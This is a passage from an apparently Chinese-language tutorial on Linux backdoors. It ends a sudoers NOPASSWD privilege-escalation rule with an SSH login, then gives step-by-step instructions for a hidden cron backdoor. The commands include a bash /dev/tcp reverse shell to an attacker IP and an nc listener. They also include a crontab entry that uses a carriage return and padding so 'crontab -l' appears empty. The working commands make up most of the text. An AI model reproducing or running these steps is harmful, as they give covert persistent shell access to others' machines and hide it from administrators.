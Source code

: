 \# 此行的含义：普通用户kali可以通过sudo这个命令，免密码以任何用户的身份执行任何命令，kali是要提权的普通用户。第一个ALL，这个规则对所有的host生效，等号右边括号的root（也可以换成ALL），是指kali可以执行root用户权限的命令，第三个ALL是可以执行所有命令。

**攻击端：**
ssh kali@被控端ip -p 端口
![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0RYYmLvdPQKgXE6AcldU3bLc8DwMbTv72Bx0K10eoJlzicwLq8o6ujQQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

# cron后门

## 原理

     crontab命令用于定期执行某些设定好的任务，crond命令每分钟都会定期检查是否有要执行的任务，如果有便会自动执行该任务。若创建新的cron任务，并不会马上执行，一般过2分钟后才能够执行，或者可以重启cron马上执行。
    crontab -l命令用于查看定时任务，实际是查看/var/spool/cron/crontabs/root文件（每个用户都会生成一个与自己同名的crontab文件位于/var/spool/cron/crontabs/中），而通过建立隐藏后门的文件，再执行crontab -l或者直接使用cat命令去查看crontabs目录的文件，就无法看见真正执行的定时任务。

## 实例

**被控端：**

```
1.crontab -l     # 查看定时任务
```

```
2.植入crontab隐藏后门需要的文件first.sh，vim first.sh，文件内容如下：
\#! /bin/bash
bash -I >& /dev/tcp/攻击端ip/监听端口 0>&1
（反弹shell到攻击端）
```

```
3.建立cron隐藏后门second.sh文件，vim second.sh，文件内容如下：
(crontab -l;printf "*/1 * * * * /root/first.sh;\rno crontab for `whoami`%100c\n")|crontab -
```

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0k15f0fffaMd3VjTts67B4JlsyCB8XFh7ahlU9Bkq2HKvdqfnWZPChA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

```
4.更改文件权限
chmod 777 first.sh
chmod 777 second.sh
攻击端：
nc -l 监听端口     # 开启监听
被控端：
crontab -l       # 查看定时任务
./second.sh     # 执行隐藏后门文件，一分钟后攻击端监听的1234端口就会接收到shell
```

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0b8poFgeXhweicg7KARfjqpKbibib1a5Ul0duIM4wcUPUMnKdDrgSab7WQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

攻击端监听：
![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF03BqHZQm9qR6ia0xnpgyOIMDkvqNWuAOdjTWA2muicPfPCiaicCxNBuvQGA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
